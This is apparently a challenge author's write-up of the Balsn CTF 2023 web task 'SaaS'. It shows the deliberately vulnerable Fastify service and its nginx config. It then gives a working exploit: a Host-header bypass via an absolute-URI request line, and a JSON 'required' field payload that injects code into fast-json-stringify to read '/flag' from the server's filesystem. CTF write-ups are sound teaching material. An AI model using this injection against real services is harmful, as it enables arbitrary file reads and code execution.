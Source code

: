 ```yaml
---
title: '2023 Balsn CTF Web/Saas author Writeup'
disqus: hackmd
tags: note
---
```




# SaaS

![](https://hackmd.io/_uploads/r1IqunQ-p.png =400x400)

## Description
:::warning
Author's murmur warning! u can jump to [Overview](#Overview).
:::

- The challenge is inspired from [fastify document](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization)
![](https://hackmd.io/_uploads/SJPMNYz-T.png)
- The official doesn't support dynamic creation of schema validation by default, and fastify only precompile schema validation once when the server startup.
- I try to find the real use case or plugin that support dynamic schema/route creation, and the official doesn't like this proposal. see https://github.com/fastify/help/issues/149
- The package `fast-json-stringify` is used to create validator. Thus, I try to find any dependents which has any use case that creates validator from untrusted user input, and 404 not found.
![](https://hackmd.io/_uploads/H1hhd27Wp.png =400x300)

- Also, document mentions this [security notice](https://www.npmjs.com/package/fast-json-stringify?activeTab=readme#user-content-security-notice)
![](https://hackmd.io/_uploads/rkWRd2mZ6.png =500x250)

- But it is CTF,impractialty is ok, right? And deadline is approaching... That's make it a service to create dynamic schema!
- An additional part is nginx. Since ginoah estimated about 50~100 solves (`easy+++++++`), i comed up with it  when i was reading document for solving ginoah's 1linenginx.
- Then ginoah and kaibro solved this part as soon as they read it. Only i learned it in 2023.
- Thus, the final difficulty is `easy++++++`.

## Overview

- The challenge is clear, try to find where we can inject code in something like `new Function(...)` when create custom schema validator.

```
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

- and we have to route request to `server_name` like `*.saas` but with HTTP header set to `Host: easy++++++`
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

## Solution
 
### Nginx
 - Nginx part is trivial, from [document](http://nginx.org/en/docs/http/ngx_http_core_module.html#var_host)
![](https://hackmd.io/_uploads/Byh40FMWa.png)
- Nginx match `server_name` with `$host`, and it can be  set by `request line`. Then below request bypass the check.
    ```
    GET http://any.saas/ HTTP/1.1
    Host: easy++++++
    ```

### fast-json-stringify

- open vscode, start debugger, trace code.
- I found `requiredProperty` 
```
  // handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```
![](https://hackmd.io/_uploads/rylkLWcGWT.png)
![](https://hackmd.io/_uploads/ByYNb5G-a.png)

- Then
```
POST http://a.saas/register HTTP/1.1 
Host: easy++++++
Content-Type: application/json 
Content-Length: 104

{"$id":"aaa","required":["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]}


HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Tue, 10 Oct 2023 08:59:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: keep-alive

{"route":"/whowilldothis/1c6c400d-94c6-438b-a410-7828f2e05aad"}
```
![](https://hackmd.io/_uploads/HkB6GqMZT.png)
